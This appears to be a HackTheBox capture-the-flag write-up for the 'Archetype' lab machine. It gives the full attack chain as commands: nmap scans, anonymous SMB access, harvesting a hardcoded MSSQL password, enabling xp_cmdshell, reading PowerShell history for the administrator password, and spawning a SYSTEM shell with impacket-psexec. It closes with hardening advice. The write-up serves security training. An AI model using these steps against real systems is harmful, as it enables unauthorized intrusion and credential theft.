

# HackTheBox - Archetype (Starting Point: Tier 2)

**Target IP:** `10.129.136.243`  
**Difficulty:** Very Easy  
**Tier:** Tier 2 (Starting Point)  
**Operating System:** Windows Server 2019 Standard (Build 17763)  
**Vulnerabilities / Attack Vectors:**
- Unauthenticated SMB Share Enumeration (`backups`)
- Hardcoded MSSQL Credentials in Configuration File (`prod.dtsConfig`)
- Command Execution via MSSQL Extended Stored Procedure (`xp_cmdshell`)
- Plaintext Administrative Credential Disclosure in PowerShell History (`ConsoleHost_history.txt`)
- Remote Service Execution / Privilege Escalation via Impacket `psexec`

---

## 1. Executive Summary & Objective

**Archetype** is an introductory Windows machine featured in the HackTheBox Starting Point series (Tier 2). The challenge focuses on foundational Windows penetration testing methodologies, demonstrating how chained misconfigurations - from unauthenticated SMB file sharing to database service exploitation - can lead to total system compromise.

The objective is to discover open network shares, extract hardcoded database credentials from a configuration backup file, establish a foothold in Microsoft SQL Server (MSSQL), leverage database execution privileges to access the user flag (`user.txt`), harvest plaintext administrator credentials from the user's PowerShell history, and escalate privileges to `NT AUTHORITY\SYSTEM` to capture the final flag (`root.txt`).

---

## 2. Attack Chain & Methodology

The penetration test follows a structured, multi-phase attack chain:



---

## 3. Phase 1: Reconnaissance (All-Ports Port Scanning)

We initiate the assessment with an aggressive, full-range TCP port scan across all 65,535 ports to ensure no non-standard services or management ports are overlooked.

```bash
sudo nmap -sS -p- --min-rate 2000 -Pn -n -v $TARGET -oN fullports.nmap
```

### Command Flags Breakdown:
- `sudo`: Runs Nmap with administrative privileges, required to generate raw TCP SYN packets.
- `-sS`: Executes a TCP SYN stealth (half-open) scan without completing the 3-way handshake.
- `-p-`: Scans the entire TCP port range from `1` to `65535`.
- `--min-rate 2000`: Enforces a transmission rate of at least 2,000 packets/second to accelerate full-port sweeping.
- `-Pn`: Skips ICMP ping discovery, treating the target host as actively online.
- `-n`: Disables reverse DNS resolution to eliminate unnecessary network queries.
- `-v`: Verbose output, logging open ports in real-time as they are detected.
- `-oN fullports.nmap`: Saves results in standard Nmap format to `fullports.nmap`.

### Scan Result:


### Identified Open Ports:
- **Port 135/TCP:** `msrpc` (Microsoft Windows RPC Endpoint Mapper)
- **Port 139/TCP:** `netbios-ssn` (NetBIOS Session Service)
- **Port 445/TCP:** `microsoft-ds` (Server Message Block / SMB)
- **Port 1433/TCP:** `ms-sql-s` (Microsoft SQL Server Database Engine)
- **Port 5985/TCP:** `wsman` (Windows Remote Management / WinRM)
- **Port 47001/TCP:** `winrm` (WinRM Service)
- **Ports 49664–49669/TCP:** High-range dynamic RPC ports

---

## 4. Phase 2: Service & OS Enumeration

Next, we run targeted service version detection, OS fingerprinting, and standard Nmap Scripting Engine (NSE) scripts against the discovered ports.

```bash
sudo nmap -sC -sV -O -p 135,139,445,1433,5985 -Pn -n -v $TARGET -oA service.nmap
```

### Command Flags Breakdown:
- `-sC`: Executes default Nmap NSE scripts to detect service banners, common misconfigurations, and system information.
- `-sV`: Probes open ports to determine exact service names and version details.
- `-O`: Identifies operating system signatures via TCP/IP stack fingerprinting.
- `-p 135,139,445,1433,5985`: Restricts the probe exclusively to the identified active services.
- `-oA service.nmap`: Exports the scan findings into all three standard output formats (`.nmap`, `.gnmap`, and `.xml`).

### Scan Result:


### Key Findings:
- **Target OS:** `Windows Server 2019 Standard 17763 (Build 6.3)`
- **Computer Name:** `ARCHETYPE`
- **Workgroup / Domain:** `WORKGROUP`
- **SMB Authentication:** Allows unauthenticated `guest` access with message signing disabled.

---

## 5. Phase 3: SMB Share Enumeration & Credential Hunting

Because port 445 (SMB) is accessible and permits unauthenticated enumeration, we inspect the available shares using `smbclient`:

```bash
smbclient -N -L //10.129.136.243/
```

- `-N`: Suppresses password prompting, attempting a null / anonymous connection.
- `-L`: Lists the available shares on the remote server.

### SMB Share Listing:


The output reveals four shares:
- `ADMIN$` - Remote Administrative share (Access Denied)
- `C$` - Default drive share (Access Denied)
- `IPC$` - Remote Inter-Process Communication
- **`backups`** - Non-default disk share accessible without authentication

### Accessing the `backups` Share:
We establish an interactive SMB session to the `backups` share:

```bash
smbclient -N //10.129.136.243/backups
```

```text
smb: \> ls
.                                   D        0  Mon Jan 20 19:20:57 2020
..                                  D        0  Mon Jan 20 19:20:57 2020
prod.dtsConfig                     AR      609  Mon Jan 20 19:23:02 2020
```

We retrieve the `prod.dtsConfig` file to our local attacking machine:

```text
smb: \> get prod.dtsConfig
```


### Analyzing `prod.dtsConfig`:
Inspecting the downloaded configuration file with `cat`:

```bash
cat prod.dtsConfig
```


The XML content reveals hardcoded connection string parameters intended for SQL Server Integration Services (SSIS):
- **User ID:** `ARCHETYPE\sql_svc`
- **Password:** `M3g4c0rp4ubesK3y`
- **Target Service:** Local MSSQL instance

---

## 6. Phase 4: MSSQL Foothold via Impacket

With valid database credentials obtained, we connect to the MSSQL instance running on port 1433 using Impacket's `mssqlclient.py`:

```bash
impacket-mssqlclient "ARCHETYPE/sql_svc:M3g4c0rp4ubesK3y@10.129.136.243" -windows-auth
```

### Parameters Breakdown:
- `"DOMAIN/USER:PASSWORD@TARGET-IP"`: Specifies user identity and connection target.
- `-windows-auth`: Forces NTLM / Windows Authentication rather than native SQL server authentication.


Authentication succeeds, giving us an interactive SQL prompt:
```text
SQL (ARCHETYPE\sql_svc guest@master)>
```

---

## 7. Phase 5: Remote Code Execution & User Flag Capture

### Enabling `xp_cmdshell`:
Microsoft SQL Server includes an extended stored procedure named `xp_cmdshell`, which allows users with administrative database privileges (`sysadmin`) to execute arbitrary operating system commands under the context of the SQL Server service account.

If disabled by default, it can be re-enabled through SQL configuration commands:

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
*(In `impacket-mssqlclient`, you can also use the built-in command `enable_xp_cmdshell`)*.

### Credential Harvesting via PowerShell History:
When commands are run in PowerShell on modern Windows systems, the `PSReadLine` module automatically records command history into a flat text file. We query this file for the `sql_svc` account:

```sql
xp_cmdshell "type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt"
```

The output reveals commands previously executed by an administrator:
```text
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_SHARED_FOLDER_PW
exit
```

- **Target User:** `Administrator`
- **Disclosed Password:** `MEGACORP_SHARED_FOLDER_PW`

### Capturing the User Flag:
We navigate to `sql_svc`'s desktop and read `user.txt`:

```sql
xp_cmdshell "type C:\Users\sql_svc\Desktop\user.txt"
```


The user flag is successfully retrieved!

---

## 8. Phase 6: Privilege Escalation to Administrator

With plaintext credentials for the local `Administrator` account in hand, we spawn an interactive administrative shell using Impacket's `psexec.py`:

```bash
impacket-psexec administrator:'MEGACORP_SHARED_FOLDER_PW'@10.129.136.243
```

### How `psexec` Works:
1. Authenticates to the target host via SMB (Port 445) using the administrative credentials.
2. Uploads a randomly named binary payload to the administrative share `ADMIN$`.
3. Communicates with the Windows Service Control Manager (`SVCManager`) over RPC.
4. Creates, registers, and starts a temporary Windows service that runs the executable as `NT AUTHORITY\SYSTEM`.
5. Redirects `stdin`, `stdout`, and `stderr` over named pipes, providing an interactive `SYSTEM` shell.


### Capturing the Root Flag:
From the administrative prompt, we read the final flag:

```cmd
C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
```

Both `user.txt` and `root.txt` flags have been retrieved, completing the full compromise of **Archetype**.

---

## 9. Remediation & Hardening Guidelines

To protect Windows server environments and database infrastructure against similar attacks, implement the following security controls:

1. **Restrict SMB Anonymous / Guest Access:**
   - Disable guest access and anonymous share enumeration in Windows Group Policy:
     - `Computer Configuration -> Windows Settings -> Security Settings -> Local Policies -> Security Options -> Network access: Restrict anonymous access to Named Pipes and Shares`.
   - Ensure network shares storing backups or sensitive files enforce strict NTFS and SMB permissions.

2. **Secure Secrets & Configuration Management:**
   - Never store unencrypted database passwords in configuration files (`.dtsConfig`, `.config`, `.xml`).
   - Use **Group Managed Service Accounts (gMSA)** or Windows Integrated Authentication so applications authenticate without hardcoded passwords.
   - Store sensitive secrets in a dedicated secrets manager (e.g., Azure Key Vault, HashiCorp Vault).

3. **Harden Microsoft SQL Server:**
   - Keep `xp_cmdshell` permanently disabled unless strictly required by application architecture:
     ```sql
     EXEC sp_configure 'show advanced options', 1;
     RECONFIGURE;
     EXEC sp_configure 'xp_cmdshell', 0;
     RECONFIGURE;
     ```
   - Follow the principle of least privilege: Run SQL Server under a dedicated, low-privileged service account rather than `LocalSystem` or accounts with local administrator privileges. Do not grant `sysadmin` role to application service accounts.

4. **Prevent Credential Leakage in PowerShell Command History:**
   - Never pass plaintext passwords directly into CLI commands (`net.exe use ... /user:... <password>`).
   - Use `Get-Credential` or `System.Security.SecureString` in PowerShell scripts so credentials are not logged in `ConsoleHost_history.txt`.
   - Implement sensitive data sanitization or disable PSReadLine history logging on sensitive jump hosts and administrative systems.

5. **Network Segmentation & Firewall Rules:**
   - Restrict access to ports `445` (SMB), `1433` (MSSQL), and `5985` (WinRM) using host firewalls (`Windows Defender Firewall`) and network firewalls to authorized management subnets only.